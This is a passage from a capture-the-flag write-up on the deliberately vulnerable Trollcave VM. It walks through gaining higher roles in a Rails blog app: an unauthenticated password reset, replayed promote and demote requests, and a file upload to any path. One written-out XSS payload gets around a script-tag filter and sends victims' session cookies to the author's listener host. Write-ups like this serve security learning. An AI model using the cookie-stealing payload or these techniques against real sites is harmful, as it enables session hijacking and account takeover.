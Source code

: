 # TrollCave

Trollcave is a VM available from [VulnHub](https://www.vulnhub.com/entry/trollcave-12,230/) - a  "vulnerable VM, in the tradition of Vulnhub and infosec wargames in general. You start with a virtual machine which you know nothing about – no usernames, no passwords, just what you can see on the network."

As with many traditional wargaming VMs, your objective is simple: gain access to the root account and retrieve a flag to prove you did it. Although it didn't offer a great many surprises, I found it pretty enjoyable. What follows is a write-up of my experience of trying to exploit this VM. It's not exhaustive documentation - from my understanding, there are more than a couple ways to go about exploiting this VM.

## Getting Started

After importing and setting up the VM on a host-only network and confirming that it had obtained an IP address properly, I was ready to begin poking at it. Knowing nothing about the system or what I was in for, I started with a simple netdiscover to find it on the local network, followed by a quick NMap scan to see which ports are open.

The results were pretty simple: two services accessible to the outside world on ports 22 and 80. After examining the OpenSSH running on port 22 and concluding that I wouldn't find an easy way in there, I proceeded to the webserver. It's a fairly simple community blogging platform running Rails, complete with the kind of humour we've come to expect from CTF challenges ("God himself cannot hack this website. - dragon, site admin"). There's a lot going on here, but very little is accessible without an account - which is problematic, since registration seems to be closed. The first step, then, is to get our hands on one.

## Escalating from Guest User

This challenge relies heavily on its hints, especially in the web app exploitation phase. Pretty much every stage includes some kind of hint in the form of a blog post. Some of them were red herrings (unless I missed something), but I'll cover that later. The interesting tidbit that leads you to your first win is a blog post about password resets by "coderguy", the site developer. He doesn't tell you exactly where to look for the password reset functionality - and there's no links to it anywhere. What he does say, however, is that there is a `password_resets` resource in use.

A little bit of intuition or an understanding of the way Ruby on Rails resources are set up is required here. The resource he's referring to is at `/password_resets/new`. Here we'll find a lovely unauthenticated form that lets us reset the password of any regular user - moderators and admins are out of our grasp, but this was enough for me to reset the password of 'xer', one of the regular members on the site.

## Escalating from Regular Member

While I was doing this challenge, I was very focussed on a particular comment made by King, the site superadmin:

`I promise to read every blog restricted to my access level, no matter how creepy. `

See, every user has the ability to create blogs, and every blog has an access level. Regular users only have access levels 0 and 1; which are "everyone can see it" and "only members can see it", respectively. King has an access level of 5, but a regular user can't create a blog at that level - not even by fiddling with the POST parameters, as I found out. In the end, making a level 5 blog and performing a client-side attack wasn't the answer, but it kept me going for a good while.

Either way, the next step for me was to get one of those fancy moderator accounts. Besides King, one other user had dropped a hint about monitoring the website - "cooldude89", a Moderator user. He had created a thread about politics and religion, and promised to constantly watch it to make sure no trolls derail the debate. Taking this as an invitation for a client side attack, I set about searching for XSS.

Although there is a rudimentary WAF in place, circumventing it didn't take much. The `<script>` tag is filtered out of any post or comment, but all you need to do is include an attribute (i.e. `<script id=test>`) and it will go through. After some tinkering, I deduced that the session cookie is not protected in any way, and that stealing it will let you hijack a user's session - even if they click the logout button. To that end, I crafted the following XSS injection:

`<SCRIPT id=test>document.write('<img src="http://192.168.56.1/collect.gif?cookie=' + document.cookie + '" />')</SCRIPT>`

All I needed on the backend was a simple little Python script to collect the cookies being sent to my IP address. My assumption was correct - the page was being periodically accessed by cooldude89, and I shortly harvested his cookie and used it to log in as him. Now as moderator, I was able to set my sights on a higher prized.

## Escalating from Moderator

Above the role of moderator, there were two roles I didn't yet have access to: admin and superadmin. Once again, the blogs provided a valuable hint. This time, it came in the form of a blog post visible only to moderators that documents a "promote" functionality. Basically, any moderator can "promote" any regular member into a moderator. This is handy for escalating xer into a mod so I don't have to modify a cookie every time I want to log in, but it doesn't help me get to admin... or does it?

When you promote someone to moderator, a POST request is made to a URI that looks something like `/users/12/mod`. After you've promoted them, the "mod" button goes away. This stops you from promoting someone who has already been promoted - but what if you just replay the POST request? By making a request to promote someone who is already a moderator, it is possible to promote them into an admin. The only catch is that you can't do it to yourself - so I promoted xer into a mod, then an admin.

## Escalating from Admin

Only one hurdle remains: the superadmin account. There is only one superadmin: King. As before, Trollcave has a hint for us. I had suspected that the file upload functionality - which is disabled - would eventually be how I got code execution. This was all but confirmed by an admin-only post which indicated that it was disabled due to "security concerns", and that only the superadmin could enable it. Another admin-only blog post informed us that King has quit to "find himself", and that dragon has taken his account - so we need to escalate laterally to his account. Whoever has King has access to the file upload functionality, which is the way in.

So, we need to get from one admin account to another. Luckily, the client-side validation on the "promote" functionality comes to the rescue again. There is an "unmod" button which removes admin or moderator status, and can be abused in a similar way to the "mod" button. Using this, I was able to demote dragon down to a regular user, then reset his password. I could have promoted him back up to admin, but it wasn't necessary in the end - his "access" to the King account comes in the form of a message in his inbox containing King's password.

Armed with the password, I was able to log in to King.

## Getting Shell Access

Obviously, the first thing I did as King was to re-enable the file upload functionality. The second was to look at the blogs for any new hints. Unsurprisingly, I found one:

`hey man, if i'm going to be doing much more work on the site i'm really going to need sudo access. also i don't know how good an idea it is for me to be using the rails user interactively, maybe we oughta separate that`

This could be useful in the future, but first we need to see just what we can do with the file upload function. As it turns out, it's pretty trivial to exploit - you can specify any path accessible to the web application, and your file will be uploaded there. So if you enter `/var/www/public/test.txt`, a file will be written there. You don't even need the usual directory traversal tricks. Trying to write a file to somewhere you don't have access to simply results in a generic rails 500 error.
